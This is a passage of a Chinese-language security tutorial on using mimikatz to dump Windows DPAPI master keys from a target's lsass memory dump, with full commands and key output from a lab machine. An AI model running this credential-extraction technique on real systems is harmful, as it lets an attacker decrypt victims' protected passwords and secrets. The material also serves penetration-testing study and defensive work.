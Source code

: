 ```console
  dwSignLen          : 00000040 - 64
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

```

> 注：获取到的 guidMasterKey 值，其实就是的 Master Key File 的名称。
>
> 可以在 `%APPDATA%\Microsoft\Protect\<UserSID>\<MasterKeyFile>` 中找到。

使用 mimikatz 加载从目标机的 lsass.dmp 转储文件；

并通过对应的 MasterKey 文件名（guidMasterKey/GUID 值）找到对应的 MasterKey 值：

```console
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::dpapi
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 439901 (00000000:0006b65d)
Session           : Interactive from 1
User Name         : test
Domain            : DESKTOP-TEST
Logon Server      : DESKTOP-TEST
Logon Time        : 2023-11-24 14:26:41
SID               : S-1-5-21-102229053-337446436-1419803206-1001
  [00000000]
  * GUID      : {273001c6-c88c-422a-aecb-daa6f950f8d0}
  * Time      : 2023-11-24 14:51:01
  * MasterKey : 9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
  * sha1(key) : a00423233ef319472dd71c7356322f7b00b29e13
  [00000001]
  * GUID      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  * Time      : 2023-11-24 15:30:06
  * MasterKey : 6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
  * sha1(key) : b53ebc9462b9cf6284f116b46d3a869091cc398f


Authentication Id : 0 ; 439845 (00000000:0006b625)
Session           : Interactive from 1
User Name         : test
Domain            : DESKTOP-TEST
Logon Server      : DESKTOP-TEST
Logon Time        : 2023-11-24 14:26:41
SID               : S-1-5-21-102229053-337446436-1419803206-1001

......

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-TEST$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2023-11-24 14:26:34
SID               : S-1-5-18
  [00000000]
  * GUID      : {806436a2-285b-4457-9634-9fe864996faa}
  * Time      : 2023-11-24 15:29:23
  * MasterKey : a399f4fb6ab9caed09407c4adf12a83ab52fd63ff8edf5c2db95daf4178bab8755fd29f876c878fcbb7140692222d3c7fd4306091b8215a7bf461237bb832d60
  * sha1(key) : 434dba543e494c255867a7676fd6b05d958cf950
```